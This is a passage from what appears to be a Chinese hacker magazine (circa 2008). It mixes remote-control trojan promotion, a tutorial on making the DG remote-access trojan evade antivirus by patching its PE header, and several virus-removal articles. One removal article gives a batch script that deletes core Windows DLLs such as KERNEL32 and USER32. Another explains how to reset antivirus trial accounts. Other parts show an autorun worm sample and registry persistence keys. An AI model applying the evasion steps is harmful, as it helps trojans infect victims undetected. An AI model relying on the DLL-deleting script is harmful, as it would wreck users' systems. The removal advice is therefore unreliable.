至此，黑鹰远控的主要功能就为大家介绍完了。这款木马的运行还是非常稳定的，继承了大量优秀木马的技术特点。如果在新版本中能够加入突破主动防御的功能，那么黑鹰远控就会更加强大和优秀了。

（文章中涉及到的黑鹰远控 2008 破解版已经收录在光盘中）

## 教你于6分钟免杀DG远控

阿虚

本人菜鸟一个，因为没有自己的爱机，每次想学技术时只能去网吧。因为总去那个网吧上网，于是就和网吧的网管比较熟了。这天，我照常去网吧上网，网管和我说起了前天因为主机中病毒而重装系统的事……

我选用的木马是群里老大发布前些天更新的 DG 远控 2008.4.25，因为它的文件和屏幕传输速度非常快……我查了一下自己的邮箱，之前还真记下了网址：http://online1.jiangmin.com/kvonline/jiangmin/KVKillOnline.aspx ……


图1

接下来就要开始做免杀了。我使用的是移动 PE 头免杀法……使用 C32ASM 载入 Server.dll，来到如图2所示的地方……

所以 PE 头的大小是“E0 00”，“00E0”使用计算器换算成十进制为 224，如图3，所以 PE 头的大小就为 224 字节。


图2


图3

从地址 0100 开始向下选 224 字节（在 C32ASM 下有选择了多少字节的提示）……因为 PE 头上移了，所以 PE 头开始的位置和 PE 头的大小都改变了，如果不改文件的话是不能正常运行的。把原来的“00 01”改为现在的“50 00”（小菜：为什么要这么改，不应该是“00 50”吗？阿虚：十六进制是反过来的，所以是“50 00”）。

再来计算新 PE 头的大小，使用鼠标选中地址 0050 到 01DF，也就是现在 PE 头开始的地方到原来 PE 头结束的地方。看 C32ASM 显示是多少字节，是 400 字节，使用计算器转换成十六进制就是 190，也就是“90 01”。把地址 0114 和 0115 的“E0 00”改为“90 01”，修改完成后如图5所示，保存文件，使用江民查查看，已经不查杀了吧！


整个过程不到4分钟。现在使用免杀的 Server.dll 生成一个服务端，对于服务端程序还是使用移 PE 头的方法来进行免杀，免杀 PE 头前后如图6、图7所示。运行一下，成功上线了，江民也不查杀了，如图8。全部免杀完成只不过6分钟，够快吧！

后来我又查杀了一下内存，可能是因为这款木马刚刚推出吧，江民内存还没有查杀 DG。

移 PE 头的免杀方法对小菜们来说还是比较简单的，老鸟们不要笑我啊！如果有小菜看不懂本文的话，还可以看随本文收录的录像文件，结合文章就应该能够掌握了。

（文章中涉及到的 C32ASM 以及录像文件已经收录在光盘中）


## 对阵奇怪的AUTO病毒

杨锐令

#### 一、事出有因

近日，学校机房里病毒横行，几乎每台电脑里都有个名为 auto.exe 的病毒，而且该病毒具有极强的传染性，凡是插过的 U 盘都会被感染（即使做了 U 盘免疫也不能幸免），这也导致了许多同学寝室内的电脑感染了该病毒。然而由于学校制度的规定，寝室里不准架宽带上网，这使得同学们电脑里的杀毒软件无法升级，成了一个摆饰。

这天接到一个 MM 的紧急求助，说是中了该病毒，让我帮忙清除。遗憾的是我平时大大咧咧惯了，去的时候居然忘了带工具包。为了不在 MM 面前显窘相，便硬着头皮鼓捣了一番，最后便诞生了这个“史上最 NB 的杀毒方法”。

#### 二、路逢险处

按照常规的查毒方法，先打开任务管理器查看，没有发现什么可疑进程。我猜测病毒可能是采用线程插入的方式运行的，但我手里又没有类似“冰刃”这类的工具，最后只好使用系统自带的“tasklist”命令，命令格式为 tasklist /m。由于系统里所有进程使用的 DLL 文件数很多，导致在 cmd 下无法显示完整，这就需要把结果导入到文本文件中以方便查看了，命令格式为 tasklist /m>e:\dllfile.txt，“e:\dllfile.txt”为导出的路径和文件名，可以任意给定，导出的结果如图1所示。

```bat
tasklist /m
tasklist /m>e:\dllfile.txt
```


右边的模块一栏列出了该进程所使用的所有 DLL 文件，我粗略地查看了一遍，没有发现可疑的 DLL 文件。我又运行“msconfig”，这是系统自带的配置程序，查看了一下“启动”项，也没有发现什么可疑的项目（小编注：就以小编来看，似乎其中的 hkcmd、Client 等就有些可疑），如图2。

在“开始”→“运行”栏输入 regedit 打开注册表，我查看了常见的几个启动键值，也都没有发现什么可疑的信息，如图3、图4、图5、图6。

接下来又打开了系统的服务管理，一个个查看了一遍，依然没有发现什么可疑的项目，如图7。看来这病毒还真不好解决呀！以往手工查杀病毒的时候，往往都能看到病毒的启动项或服务项。对于这种无服务、无启动项，并且也看不到插入线程文件的病毒，虽然我不是第一次遇到，但对于现在手无寸铁的我来说却着实是个难题。

我正思考着要如何解决，突然想起了前段时间的“system.pif”病毒。该病毒便是典型的不插线程、无启动项、无服务的例子，仅仅依靠系统的计划任务来达到传染、免杀和保护自己的目的。我马上在命令提示符里输入“at”和“SCHTASKS /query”，结果却令我大失所望，提示说系统任务列表为空，如图8。这下问题棘手了，连病毒的运行方式、启动原理都没有弄清楚，又没有时间到虚拟机里去做系统快照，这使得问题解决起来几乎就是不可能。


图8

#### 三、灵光一现

如果我手里有个汇编程序也好呀，起码可以看到病毒到底对系统的哪些键值做了更改，因为大多数病毒在汇编程序中有很多相关键值数据都是明文显示的。就在这时我突然想到，既然在汇编中是明文显示的，那么倘若我使用记事本打开病毒文件，病毒中的那些明文内容是否也会正常显示出来呢？

想到就做。因为可执行文件无法直接使用右键选择“打开方式”，所以我把病毒改名为“auto.txt”，双击后使用记事本打开了，如图9。很明显，没有出现类似注册表键值的数据，但却让我看到了一些 DLL 文件名。


图9


图7

学习过 C++、Delphi 或其它程序语言的朋友应该知道，每一个程序在进行编写的时候都会在程序的头部声明一些函数，而这些函数都包含在相关的 DLL 文件中。程序在运行的时候就会自动调用这些 DLL 文件中的相关函数来支持程序的运行。如果没有猜错的话，这里所列出的几个 DLL 文件便是病毒所需要的 DLL 文件。那我们是否可以利用类似病毒阻止杀毒软件运行的方法，也就是同名文件夹欺骗法，来阻止病毒的运行呢？

#### 四、剑走偏锋

我的思路是把系统里的所有同名 DLL 文件搜索出来改名或删除，然后在原来的位置以 DLL 文件名建一个不可删除的文件夹来防止 DLL 文件被病毒或系统修复，然后再把系统里所有与病毒同名的文件删除。为防病毒关机时再次产生，我采用杀系统关键进程的方法来关机。因为手工操作的时间延迟问题，这些过程我让批处理来完成，程序代码如下：

```bat
@echo off
:: 关闭命令提示
Tskill /im explorer.exe
:: 强制结束桌面进程
Attrib -a -s -h c:\windows\system32\KERNEL32.DLL
Del c:\windows\system32\KERNEL32.DLL /f /s /q
Mkdir c:\windows\system32\KERNEL32.DLL\fengning
Attrib -a -s -h c:\windows\system32\MSVCRT.DLL
Del c:\windows\system32\MSVCRT.DLL /f /s /q
Mkdir c:\windows\system32\MSVCRT.DLL\fengning
Attrib -a -s -h c:\windows\system32\USER32.DLL
Del c:\windows\system32\USER32.DLL /f /s /q
Mkdir c:\windows\system32\USER32.DLL\fengning
Attrib -a -s -h c:\windows\system32\ADVAPI32.DLL
Del c:\windows\system32\ADVAPI32.DLL /f /s /q
Mkdir c:\windows\system32\ADVAPI32.DLL\fengning
Attrib -a -s -h c:\windows\system32\SHELL32.DLL
Del c:\windows\system32\SHELL32.DLL /f /s /q
Mkdir c:\windows\system32\SHELL32.DLL\fengning

Attrib -a -s -h c:\auto.exe
Del c:\auto.exe /f /s /q
Mkdir c:\auto.exe\fengning
Attrib -a -s -h c:\autorun.inf
Del c:\autorun.inf /f /s /q
Mkdir c:\autorun.inf\fengning

Attrib -a -s -h d:\auto.exe
Del d:\auto.exe /f /s /q
Mkdir d:\auto.exe\fengning
Attrib -a -s -h d:\autorun.inf
Del d:\autorun.inf /f /s /q
Mkdir d:\autorun.inf\fengning

Ntsd -c q -p 3696
Ntsd -c q -p 2040
Ntsd -c q -p 696
Ntsd -c q -p 684
Ntsd -c q -p 616
Exit
```


图10

使用记事本将上面的代码另存为 `killAuto.bat` 后运行。若执行顺利，桌面图标和任务栏会短暂消失，系统会挂起一段时间后恢复。文中提示：搜索 DLL 文件时可能在 `C:\Windows\System32\dllcache` 目录发现同名文件，删除语句不要误删系统关键文件。为防止各分区 `AUTO.EXE` 自动再生，需要继续处理各分区中新建的 `Auto.exe` 与 `Autorun.inf` 文件夹。


图11

清理完成后，程序代码如下：

```bat
@echo off
Color f1
Title 传染性病毒判断
Mode con cols=50 lines=13

:cz
echo 正在进行传染性病毒判断...
if exist %windir%\prefetch\fq.fn del %windir%\prefetch\fq.fn

for %%i in (C D E F G H I J K L M N O P Q R S T U V W X Y Z) do (
  echo text>%%i\text.fn
  if exist %%i\text.fn echo %%i>>%windir%\prefetch\fq.fn
  if exist %%i\text.fn del %%i\text.fn
)

for /f %%i in ('%windir%\prefetch\fq.fn') do (
  rd %%i\auto.exe /s /q
  rd %%i\autorun.inf /s /q
)

ping -n 10 127.1>nul

for /f %%i in ('%windir%\prefetch\fq.fn') do (
  if exist %%i\auto.exe goto zz
  if exist %%i\autorun.inf goto cz
)

:ls
cls
echo 没有发现传染性病毒
Del %windir%\prefetch\fq.fn
Pause>nul
Exit

:zz
cls
Del %windir%\prefetch\fq.fn
echo 发现传染性病毒
Pause>nul
Exit
```

使用记事本将以上代码另存为“检查传染性病毒.bat”文件，然后双击运行，运行结果如图12所示，说明病毒没有运行，也就说明刚才我们的杀毒方法的确起作用了。


后来我简单测试了一下该病毒，发现该病毒几乎没有破坏行为，不会更改“文件夹选项”里的“显示隐藏的文件或文件夹”，也不会破坏杀毒软件，不会破坏系统文件，对系统的运行速度也几乎没有什么影响，只是在第一次登录 QQ 后 20 分钟左右会强制关闭 QQ，估计这是一个盗 QQ 号的木马。

目前该病毒的变种比较多，病毒体的更新速度比较快，杀毒软件针对它的更新速度远远跟不上，所以也出现了一些升级到最新病毒库的杀毒软件也不能查杀的窘境。网上针对该病毒的专杀工具也比较多，我找了一个推荐给大家使用，如果中了该病毒的话，直接运行一下这个专杀工具就可以清除了。

本文所使用的杀毒法在理论上对所有病毒和木马都有效（好像还没有不调用系统函数的病毒或木马吧）。限于篇幅，我也不再对其它病毒进行测试了，有兴趣的朋友可以自己去试试。

> （本文所涉及到的代码、专杀工具和病毒文件已收录到光盘中）

### “流氓”病毒杀不逍遥啦


毕业在即，论文写作已经成了如今的重中之重，奇怪的是碰病毒也比往常活跃了起来。话说一日，我一边处理文档，一边在网上闲逛。当使用 WPS 打开一个较大的 txt 文件时，电脑假死了，可是其后的一系列事件却让我明白自己的电脑中招了，我的杀毒软件竟然没起任何作用。

按下 Ctrl+Alt+Del 调出任务管理器，却弹出了“任务管理器已被系统管理员禁用”的提示框（图1）；“开始”菜单到处乱跑，鼠标怎么追也追不上；按下快捷键 WIN+R，调出“运行”栏，输入 regedit 回车后也调不出注册表编辑器，弹出“注册编辑已被管理员停用”的提示框（图2）；打开“我的电脑”，发现上方“工具”菜单下的“文件夹选项”也被莫名删除了。


碰到这种情况可真是令人心烦呀，这是我第一次与病毒面对面地进行较量，要如何解决呢？我首先想到的是通过 reg 文件导入注册表来解除注册表的限制。打开记事本，输入以下语句：

```reg
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]
"DisableRegistryTools"=dword:00000000
```

将其保存为 1.reg 文件，双击导入，可是却无法导入，弹出了错误对话框（图3）。我这才想到系统以前就无法导入注册表，我一直懒得去解决，没想到现在却成了“屋漏偏逢连天雨”。


退而求其次，只好通过 INF 文件的“安装”来解除注册表限制。打开记事本，输入以下代码：

```inf
[Version]
Signature="$Windows NT$"
[DefaultInstall]
DELREG=DELREGISTRYTOOL
[DELREGISTRYTOOL]
HKCU,SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System,DisableRegistryTools
```

将其保存为 2.inf 文件，右击 2.inf，选择安装就可以了。来简单介绍一下以上脚本的含义：

- 【Version】段是必须的；Windows 9x/ME 的 Signature 值是 `$Chicago$`，Windows 2000/XP 的是 `$Windows NT$`。
- 【DefaultInstall】段是 INF 脚本主体，DELREG 是删除注册表项的命令。
- [DELREGISTRYTOOL] 段是命令执行对象，HKCU 代表 HKEY_CURRENT_USER，后续路径与键名分别对应项路径与键值名 DisableRegistryTools。

如果要添加注册表项，则还要有键值的类型和键值的数据这两项。其中键值类型 0x00000000 代表 REG_SZ，0x00000001 代表 REG_BINARY，0x00010001 代表 REG_DWORD。比如以修改注册表项方式来解除注册编辑器的限制：

```inf
[Version]
Signature="$Windows NT$"
[DefaultInstall]
ADDREG=STARTREGISTRYTOOL
[STARTREGISTRYTOOL]
HKCU,SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System,DisableRegistryTools,0x00010001,0
```

将其保存为 3.inf 文件，右击 3.inf，选择安装，就可以起到与 2.inf 相同的效果。解除注册表编辑器的限制后，接下来就是解除其它限制了。按 WIN+R，调出“运行”栏，输入 gpedit.msc，回车后打开组策略，来看看如何使用组策略解除一些常见的限制。

### 1．解除注册表限制

## 毒瘤

“系统”，双击右边窗口中的“阻止访问注册表编辑工具”，打开“阻止访问注册表编辑工具”属性对话框（图4）。将其状态由“未配置”改为“禁用”，这样就相当于将注册表项 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System` 右边窗口中的值 `DisableRegistryTools` 删除掉，也就相当于将此值设置为 0 了。


图4

### 2．解除任务管理器限制

选中“本地计算机策略”－“用户配置”－“管理模板”－“系统”－“Ctrl+Alt+Del 选项”，双击右边窗口中的“删除任务管理器”，在打开的“删除任务管理器”属性对话框中将其状态由“未配置”改为“禁用”。这样就相当于将注册表项 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System` 右边窗口中的值 `DisableTaskMgr` 删除掉，也就相当于将此值设置为 0 了。

### 3．恢复文件夹选项

选中“本地计算机策略”－“用户配置”－“管理模板”－“Windows 组件”－“Windows 资源管理器”，双击右边窗口中的“从工具菜单删除文件夹选项菜单”，打开“从工具菜单删除文件夹选项菜单属性”对话框，将其状态由“未配置”改为“禁用”。这样就相当于将注册表项 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 右边窗口中的值 `NoFolderOptions` 删除掉，也就相当于将此值设置为 0 了。不过这个要是通过注册表来修改的话，需要注销后才行。

好了，解除了任务管理器的限制后就可以打开任务管理器了。我检查了一下，发现其中竟然没有异常的进程，看来一定是隐藏了进程。我重新使用冰刃查看了一下进程，这回终于发现了一个由六位大写随机字母组成的文件进程（如 `SSPVAO.EXE`）。结束这个异常进程后，桌面上的开始菜单不再乱跳，开始菜单逐步恢复。

打开“运行”栏，输入 `regedit` 调出注册表编辑器，选择“编辑”－“查找”，输入病毒文件名（如 `SSPVAO.EXE`），将查找到的项、键值或数据全部删除。根据查找到的数据，发现病毒文件多隐藏在 `C:\WINDOWS\system32` 目录下，删除对应病毒文件即可。

```reg
HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows
"load"="C:\\windows\\system32\\SSPVAO.EXE"

HKEY_CURRENT_USER\Software\VB and VBA Program Settings\BD NAME
"NAME"="C:\\windows\\system32\\SSPVAO.EXE"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
"SSPVAO"="C:\\windows\\system32\\SSPVAO.EXE"
```

原本以为病毒就这样给解决了，谁想到这病毒居然还有同伙。某日我在“开始”－“运行”中输入 `cmd` 打开命令提示符，该同伙弹出后，注册表、任务管理器、文件夹选项再次被禁用。用冰刃检查后发现一个由五位随机大写字母组成的异常进程 `SMKFN.EXE`。再次进入注册表编辑器查找并删除相关键值，最终定位该病毒文件同样隐藏在 `C:\WINDOWS\system` 目录下并删除。

```reg
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\BD NAME
"NAME"="C:\\windows\\system\\SMKFN.EXE"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Command Processor
"AutoRun"="C:\\windows\\system\\SMKFN.EXE"
```

删除掉此病毒有关的全部注册表项和病毒文件后，我将该病毒文件放入虚拟机中进行测试。测试结果显示 `SMKFN.EXE` 和 `SSPVAO.EXE` 可相互创建，隐蔽性较强。

- `HKEY_CLASSES_ROOT\.reg` 项右边窗口中的“默认”键值为 `regfile`。
- `HKEY_CLASSES_ROOT\regfile\shell\open\command` 项右边窗口中的“默认”键值为 `regedit.exe "%1"`。

现在 reg 文件导入的问题和病毒的问题都已经圆满解决了，终于可以安安静静地写论文了。

## 全面绞杀U盘病毒

江湖一剑飘

这天放假，同学到我家上网下载歌曲，迫不及待地将 MP3 插入电脑，然后双击打开了 MP3 的盘符，窗口自动以最大化形式打开。我按下 Ctrl+Alt+Del 打开任务管理器，发现陌生进程 **Algsrvs.exe**（图1），判断为 U 盘病毒相关问题。


我在网上查询后得知，此类病毒常通过 U 盘传播并创建 **AutoRun.inf**。该文件通常为隐藏/系统属性。可在“我的电脑”→“工具”→“文件夹选项”→“查看”中取消“隐藏受保护的操作系统文件”，并选择“显示所有文件和文件夹”，以查看隐藏文件。

查看该次 **AutoRun.inf** 内容后发现 `open=fun.xls.exe`，说明插入 U 盘时会执行伪装成电子表格的程序（图3）。


```ini
[AutoRun]
open=fun.xls.exe
shell\execute=fun.xls.exe
shell\Auto\command=fun.xls.exe
shell=Auto
[VVFlagRun]
aabbkdkfjdkfk1
```

我们来动手清除：先在任务管理器结束 **Algsrvs.exe**，再通过“开始”→“搜索”→“文件或文件夹”查找并删除相关文件。

- `C:\WINDOWS\system32\algsrvs.exe`
- `C:\WINDOWS\system32\msfun80.exe`
- `C:\WINDOWS\system32\msime82.exe`
- `C:\WINDOWS\ufdata2000.log`

删除上述文件后，在“运行”中输入 `regedit`，搜索 `fun.xls.exe` 并删除相关键值；再定位到  
`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL`，删除原有 `CheckedValue` 并新建同名 DWORD，键值设为 `1`（图6）。


随后对每个盘符右键选择“打开”进入，依次删除各盘中的 `AUTORUN.INF` 和 `fun.xls.exe`（不要双击盘符直接运行），最后重启电脑完成清除。

> ### 小窍门
> 当插入 U 盘后，先在“我的电脑”中对 U 盘盘符点右键。若菜单中出现“Auto”或“打开自动播放”等字样，通常说明盘内可能存在 `AutoRun.inf`，需进一步检查其指向文件以确认是否中毒。

### 菜鸟手工杀毒通用大法


相信没有几个读者敢拍着胸脯说自己的电脑从没中过病毒……因此，仅仅重装系统并不代表电脑就干净了，磁盘分区上还可能有 autorun 这类病毒文件。本文总结一些手工查杀病毒的常用方法。

#### 一、发现病毒

感染病毒及病毒发作时通常会有症状，如系统运行变慢、硬盘灯频繁闪烁、无法关机、异常弹窗等。但这些仅是表面现象，需进一步通过任务管理器、CPU 占用、端口监听等方式判断。

```bash
netstat -an
```

文中提到典型现象包括任务管理器/注册表被禁用，插入 U 盘后在盘符根目录生成隐藏的 `autorun.inf` 与 EXE 文件等。

#### 二、定位目标

定位目标是找到正在运行的病毒体（不含备份文件）。病毒可能以进程或 DLL 形式存在；若是进程可在任务管理器中看到，若是 DLL 注入则定位更麻烦。部分病毒会先关闭瑞星、江民等安全软件并阻止任务管理器和注册表打开。

可借助 ICESWORD 等工具查看可疑进程，重点从图标、文件名和路径判断伪装进程，例如与系统进程相近的 `nscsv32.exe`、`runouce.exe`、`rundll32.exe`（字母与数字混淆）等。

#### 三、终止运行

找到病毒体后应先终止其运行，再进行后续清理。若直接删除文件常会失败。许多病毒有自保护，会结束杀毒软件、禁用工具或通过守护进程互相拉起。

文中建议使用 FileMon 进行文件系统实时监控，将过滤器设为与 `runouce.exe` 相关，结合结束进程操作定位是谁启动了该进程，从而找到守护进程并一并处理。


图3

除即可，而使用 RegMon 对这两个病毒体进行监控的结果是可以发现它们会修改哪些注册表项，如图4。从这些注册表项中，我们能够看到一些非常熟悉的键值，比如 `HKCU\...\Run` 项、`HKLM\...\Run` 项，这就是为什么重启系统后病毒会自动运行的原因。另外，还有 `HKLM\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL\CheckedValue` 项，这就是为什么我们没有办法将主机设置为显示隐藏文件的原因。解决的方法是将它们更改为原值。

当然，病毒并不仅仅只修改这几项，在此我只是教给大家一种方法，正所谓授人以鱼，不如授人以渔，学会方法才是最重要的。查找关联文件的另一种方法就是按特征查找相同的文件，比如修改日期、大小等。病毒为了生存，必定在系统里会有不止一个的备份文件，当我们把正在运行的文件删除后，其它的备份文件仍然会伺机而动。

我们可以看到，当终止运行 `runouce.exe` 时，`explorer.exe` 会重新启动该进程，也就是说 `explorer.exe` 就是它的守护进程（其实是监控的 DLL 插入到了 `explorer.exe` 中），如图3，我们可以将 `explorer.exe` 终止，然后再终止 `runouce.exe`（或选中两个进程同时终止）。经证明，这样终止后，`runouce.exe` 就不会重启了。注意，当我们终止 `explorer.exe` 后桌面会消失，此时只需要按 Ctrl+Alt+Del 把任务管理器调出来，选择菜单中的“文件”－“新建任务（运行）”，输入 `explorer.exe` 就可以恢复桌面了。

#### 四、找到关联并清除

实际上这一步才是最麻烦的，因为稍有不慎就可能会出现清除不干净，重启电脑后仍然中毒的情况。那么，我们如何找到病毒的关联体呢？这里所说的关联体包括病毒在磁盘上还写入了哪些副本，修改了哪些注册表项以保证其启动，感染了哪些文件等。这些单靠肉眼是没法找到的，所谓它山之石，可以攻玉，使用工具是必不可少的。我推荐使用 Sysinternals 公司的 FileMon 和 RegMon。

首先我们需要设置 FileMon 和 RegMon 的过滤器，将已经确定的病毒文件 `runouce.exe` 和 `nscsv32.exe`（中间用分号分开）设置为过滤内容，然后我们需要做一个痛苦的决定，就是重新运行一下这两个病毒文件。俗话说得好：“不入虎穴，焉得虎子”嘛，反正如何终止病毒的方法我们都已经掌握了，还怕什么呢？运行一下这两个病毒文件，然后锁屏看看 FileMon 和 RegMon 吧，有不少的收获哟。

#### 五、小结

文章看到这儿，相信大家已经对手工杀毒有了一个基本的了解。本文并没有针对某一个病毒详细地介绍它的查杀方法，而是想通过以上的例子教给大家一些手工杀毒的基本方法。在我看来，将冰刃、FileMon、RegMon 这三个工具相互配合使用，能够抓出大多数的木马和病毒，但这仅仅是抓出来，并不表示就能够完全清除。比如感染型病毒，如果病毒把你电脑上所有的可执行文件都感染了，除非你把所有感染的文件都删除，要不没什么办法的。当然，我们还可以依赖杀毒软件的清毒工作，这也是我坚持安装杀毒软件的原因所在。

（文中涉及到的工具冰刃、FileMon、RegMon 已经收录在光盘中）


图4

### 菜鸟除马计

高二了，老师把班里计算机的钥匙扔给了我。唉，谁叫咱学习差呢！悲哀归悲哀，不过帮 MM 下载个 mp3 什么的倒方便多了。当然，学校给每个班级配电脑并不是用来讨好 MM 的，所以老师也时不时地使用优盘在政教处和我们班之间进行资源共享。共享的不只有课件，于是故事便开始了。

生物课上老师在使用 PowerPoint 复习伴性遗传时，打开了一个 Flash 播放器后电脑便卡了起来，要知道这可是 3.2GHz、512M 内存的电脑，直觉告诉我电脑出了问题，我又有理由下载 mp3 了！在老师滔滔不绝的育人声中，我注意到屏幕上似乎有个蓝色的框一闪而过，那框似曾相识，于是便盯着屏幕思考起来，连总是说我不听课的老师也夸我听课认真。

学校的电脑是不允许安装与学习无关的东西的，因此电脑上除了 OFFICE 外就只有 Rising（瑞星）了。难道那是 Rising 的报警框？如果是的话，那么一闪而过也就说明病毒自动点击了忽略。中午放学后我打开电脑，发现了几个陌生的进程（图1）。


打开 Rising 先扫描一下，扫描出了不少病毒，但没有那个 kl9 什么的 exe。我打开任务管理器先记下名字然后再结束进程，就如我意料之中的事，没有任何反应。再看看发现 Rising 的小伞变红了，连小狮子也不知跑到哪儿去了。病毒结束了这么多东西却没有关闭 Rising 的主界面。我打开 C 盘，电脑再一次卡了一下。先看“开始菜单”，在“开始”→“运行”栏中输入 `msconfig`，选中“启动”项，果然多了不少（图2）。

打开资源管理器，使用左边的加号打开 Windows 目录，这样可以略过双击 C 盘的动作。把相应启动项里的 exe 文件复制出来待查（图3）。这里我很郁闷，按常理来说，开机自运行后的文件是没有理由把自己给结束进程的，但我习惯性地按了一下 Del 却发现可以删除。难道这些程序完成了自己的使命？那么这些 exe 是下载了什么或者释放了什么。这些文件最大的 323K，最小的也有 100 多 K，应该不是下载者，也就是说这只是母体。接下来的问题是它们释放了什么，极有可能是 dll 了。为了验证我的猜想，我按时间顺序排列了一下图标，果然发现有不少今天创建的 dll 文件（图4），把这些文件复制一份出来。


病毒都喜欢藏身在 Windows 和 system32 目录下，这次也不例外，在 system32 目录下排列完图标后我就发现了 kl9 兄的身影了，这个家族还真是庞大（图5）。还有不少的 dll 文件，不用说，也都复制出来。看看时间，该上课了。如果老师现在冲进来我可就要直面惨淡的人生了，把 exe 们上报给 Rising，然后关机，上课。


下午放学后，我刚一开机系统便蹦出了个 `rundll32` 的错误，说 `rjr7u84w.dll` 失踪了（图6）。这说明病毒没有恢复我删除的病毒文件，不然就不会有这种缺少 DLL 文件的提示了。重启系统，进入安全模式，使用瑞星卡卡扫描命令切换卸载掉捆绑，再看一下驱动和服务列表，把多余的都通通清除掉（图7）。运行 `gpedit.msc` 把自动运行禁用掉，删除分区下的 `autorun.inf` 和对应的 `rav.cxc`。


第二天瑞星回复了前 50 个文件的结果，大部分是一个 GameOL 的木马（图8）。我最后猜想了一下这次中毒的过程：生物老师在打开那个 370K 的 exe 的 Flash 播放器后，启动了上面捆绑的游戏下载者木马，下载了 QQ 和 GameOnline 的木马、GO1 的主文件，释放一些随机变种的 kl9 们，然后注入 dll 并加入驱动注册服务。打开了自动运行后监视屏幕，一旦有杀毒软件报警便自动点击忽略，于是电脑又中了老师 U 盘中的 autorun 病毒。


图8

最后，我把病毒文件也一并提供给大家，有兴趣可以分析一下。（本文所涉及到的病毒文件已收录到光盘中）

## 看我免费用金山毒霸N次

我爱大饼

在 2008 年第一期的 X 档案上看到了一篇文章“看我无限次刷卡巴 7.0 半年 key”，其实我们也可以用同样方法免费使用金山毒霸 N 次。

金山毒霸 2008 集成了金山毒霸、金山网镖和金山清理专家，是目前国内杀毒软件中集成度最高的软件哦。它也没有瑞星、卡巴那样树大招风，整天听人说瑞星或卡巴什么，想来自己都怕怕了。

从官网 http://www.duba.net/ 下载到的金山毒霸 2008 是首次使用免费 37 天，过了 37 天就要掏腰包了，其实它只是通行证过期了，换个通行证就行了。怎么换呢？卸载掉重新下载吗？……使用金山毒霸绑定我们的那个 KSDA 帐号才行。

怎么办呢？其实我们可以去网吧下载，那个网速是超快啊，点击下载按钮后可以闪一边干其他事情，最多十分钟……到最后它就给我们一个前缀为 KSDA 的帐号和密码……拿笔记下来，回家换通行证吧！

## 揭秘360安全卫士：查杀流氓软件的原理

孤独の狼


以前记得有个软件叫做“木马杀客”，查杀木马的依据就是通过文件名和大小来判断的，而我无意中发现 360 安全卫士查杀流氓软件更绝，其判断流氓软件的依据竟然仅仅依靠的是文件名！

某日中了一个流氓木马，金山毒霸报毒，一口气删了三个文件：两个 DLL 文件和 `explorer.exe`。其中文件路径等问题导致系统重启后桌面没有了……后来通过 `%system32%\dllcache` 复制、修改注册表 `Winlogon\shell` 等方式排查。

最终在 360 安全卫士中看到报告：发现了恶意插件，路径指向 `c:\windows\system32\explorer.exe`（图2）。该文件名与系统关键进程同名但位置异常，由此推断 360 对流氓软件的判定与路径和文件名强相关。


图1


图2

## 毒瘤

展名也改了，由于是空的记事本，大小当然是 0，更不会是病毒木马。接着复制到 system32 目录中（图3），再启动 360 安全卫士进行查杀，我的猜测果然是对的（图4）。

这里 360 只列出了 dxdiag.com 这个文件，如果删掉它，360 又会列出 MSCONFIG.com 等等。到这里我们已经可以充分证明 360 的查杀依赖的是：路径和文件名。也许你会说 360 算什么，换金山清理专家吧。经过我的测试，金山清理专家也好不到哪里去（图5）。那个 spoolsvc 我不知道是什么，没有带路径，可是那个所谓的“伪 explorer.exe 下载者”确实是我复制过去的，一点“清除选定项”，我运行的桌面马上就被关闭了，这证明金山清理专家也差不多，好不到哪里去。


图3


图4


图5

前段时间本人中了个 ARP 病毒，当时国内的金山和瑞星都不能查杀，我就提交了样本并且详细说明了中毒情况，结果一周过去了一点动静都没有，当时真是对国产杀毒软件有些失望。经过这次的测试，看来国产杀毒软件要走的道路还有很长呀。

### 看我来清除“极速还原”中的流氓插件

Zhrln


前几天闲着无事，总想找点什么做，打开网页的时候突然看到了一个极速还原的广告。看广告的介绍，似乎这个软件还不错，于是就合计着制作一个专版的极速还原来自己使用。在网上查到极速还原的官方网站，发现已经有 4.0 版本了，马上下载。

该软件有两个文件：Setup.exe 以及 fakedisk.sys。一个是主程序文件（忘记提醒大家了，极速还原是一款绿色软件，不需要安装），一个是驱动文件。这和 3.0 版本不同，3.0 版本只有一个文件，安装时会自动从程序中释放 fakedisk.sys。

首先来检查软件是否加了壳，使用 Pcid 载入 setup.exe，发现软件是使用“UPX 0.89.6 -- 1.02 / 1.05 1.24 -> Markus & Laszlo”加的壳。原来是 UPX 的壳，这个好办，马上拿出 UPXShellEx 把壳给脱掉（图1）。脱壳前软件为 213KB（218624 字节），脱壳后变为了 466KB（477184 字节）。


图1


图2

对于查看资源，我个人比较喜欢使用 VC++ 以资源的形式来打开查看，如图2。打开以后我惊奇地发现，怎么居然有了“exe”这种资源？难道是捆绑了什么软件？直接将其提取出来（图3）。输出以后，发现是一个自解压的程序包（这肯定是在后台安装的，不然做成自解压干嘛），如图4。打开后发现里面的一个文件名中有 install 的字样，这更增加了我的疑心（图5）。接着分别将这四个文件提取出来逐个查看（在解压的时候微点提示有广告软件）：

> 广告软件名称：AdWare.Win32.Agent.amv，程序：E:\DESKTOP\J37\SNAV.DLL。是广告软件！已成功阻止其运行。是否要删除此文件？

我马上使用 VC 打开 Snav.dll 查看资源，原来是“百度搜索伴侣”，如图6。现在终于真相大白了，该把不要的东西删除了。直接在 VC++ 中删除掉这个资源，如图7。保存后退出，运行软件一切正常了，如图8。到此一个纯净的“极速还原”就被打造出来了，现在可以放心地使用了。


（本文所涉及到的极速还原 4.0、VC++6.0 和 UPXShellEx 已收录到光盘中）

### 令人抓狂的 clhmjlf 病毒


